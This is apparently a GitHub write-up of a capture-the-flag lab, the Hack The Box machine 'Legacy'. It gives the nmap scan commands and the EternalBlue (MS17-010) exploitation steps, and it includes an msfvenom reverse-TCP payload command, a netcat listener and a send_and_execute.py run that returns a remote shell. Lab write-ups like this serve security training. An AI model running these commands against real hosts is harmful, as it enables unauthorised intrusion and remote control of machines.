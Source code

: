 Legacy without Metasploit:

![Legacy](https://user-images.githubusercontent.com/55708909/91388528-2e9b1100-e855-11ea-9e19-33536c5bab8e.png)

Starting with Nmap Scan :
Nmap -sC -sV -T4 -A -O -oA Legacy -p- 10.10.10.4

![Legacy_nmap](https://user-images.githubusercontent.com/55708909/91389091-3f985200-e856-11ea-84e5-cd4c6331d2bc.png)
 As you can see that there are two ports open :
 1-Port 139
 2-Port 445

Therefore we will enumerate these ports.


I tried using basic tools but nothing seems to work so i run a vulnerability scan using nmap

![Legacy_vuln](https://user-images.githubusercontent.com/55708909/91391388-46739480-e857-11ea-95d0-1d3943d45251.png)

Nmap found us two vulnerability which can be exploited. 

1-MS08-067


2-MS17-010 (Eternal Blue)

I will be exploiting eternal blue using custom exploits from this git repo 

git clone https://github.com/helviojunior/MS17-010.git

cd MS17-010

msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f exe > shell.exe

open a netcat session on port 4444

Run these command : python send_and_execute.py 10.10.10.4 shell.exe and you will get a reverse shell on port 4444






